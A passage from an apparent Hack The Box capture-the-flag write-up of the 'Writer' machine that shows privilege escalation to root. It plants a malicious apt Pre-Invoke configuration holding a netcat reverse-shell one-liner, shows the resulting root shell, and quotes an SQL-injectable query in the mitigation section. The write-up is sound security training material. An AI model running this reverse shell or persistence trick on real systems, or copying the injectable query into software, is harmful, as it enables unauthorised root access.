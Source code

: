 ```


Persistence on this account was maintained by grabbing john’s ssh key.


### Root

John is part of the management group which has permission to edit the apt directory `/etc/apt/apt.conf.d`, a directory which is responsible for containing the apt configurations. As discovered using pspy, there is a cronjob running as root which performs the following command: `/usr/bin/apt-get update`. Therefore, a malicious configuration that returns a reverse shell can be added to the directory as follows:


```
john@writer:~$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.80 9001 >/tmp/f"};' > /etc/apt/apt.conf.d/0xd4y-pwn
```


When the cronjob runs again, a reverse shell is returned as the root user:


```
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 56068
/bin/sh: 0: can't access tty; job control turned off
# whoami 
root
```



# Post Exploitation Analysis


---

This section goes into further detail about the vulnerabilities of the target and how to mitigate them. Note that the mitigations shown in this section are incomplete pieces of code, however they are secure implementations of the desired result.


## SQLi Mitigation (PDO)

This machine contained multiple vulnerabilities, starting with the SQL injection in the `/administrative` page. The vulnerability lies in the following SQL statement that is performed on the user’s query:


```
"Select * From users Where username = '%s' And password = '%s'" % (username, password)
```


```